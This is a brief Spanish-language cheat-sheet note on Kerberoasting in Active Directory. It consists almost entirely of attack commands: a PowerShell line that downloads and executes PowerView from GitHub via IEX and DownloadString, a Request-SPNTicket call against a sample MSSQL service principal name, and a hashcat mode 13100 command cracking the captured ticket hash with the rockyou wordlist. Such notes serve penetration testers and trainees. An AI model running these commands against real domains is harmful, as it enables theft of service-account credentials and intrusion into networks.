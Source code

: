 # Kerberoasting 

Tags: #AD #Kerberoasting #Powershell #PowerView #HashCat 

## Obtener Hash con PowerView

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');

❯ Request-SPNTicket -SPN "MSSQL/sql.domain1.corp"

Nota:
	1. Conocer el SPN enumerando el usuario 
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 13100 --force hash-kerberoasting /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 13100 = TGS de un Kerberoasting
	# hash-kerberoasting = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```